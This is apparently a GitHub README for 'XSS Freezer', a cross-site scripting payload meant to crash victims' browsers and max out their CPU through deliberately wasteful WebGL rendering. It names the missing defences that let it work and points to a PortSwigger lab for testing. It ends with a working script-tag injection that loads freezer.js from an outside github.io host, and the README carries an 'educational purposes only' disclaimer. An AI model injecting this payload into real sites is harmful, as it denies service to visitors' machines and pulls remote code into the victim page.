 XSS Freezer is an XSS vulnerability (Stored, Reflected) payload that crashes the browser and warms up the CPU due to a 100% load. CPU load is achieved due to WebGL 2.0 with extreme settings, complex shaders, mass particle rendering, interactivity, and negative code optimization (i.e. not for the benefit but for the detriment of the user).

The script will work if the page is missing:
* SOP (Same-Origin Policy);
* CSP (Content Security Policy);
* Input validation;
* And other technologies that prevent XSS.

For the test, you can run the laboratory in https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

⚠️ Important: This payload is intended solely for educational purposes and testing on protected systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

https://github.com/user-attachments/assets/e35d05a5-1d54-42a2-89e8-511a6380acd5

------------------------------------------

```<script>var c=document.createElement('canvas');c.id='cpuCanvas';document.body.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/XSS-Freezer/freezer.js';document.body.appendChild(r);</script>```
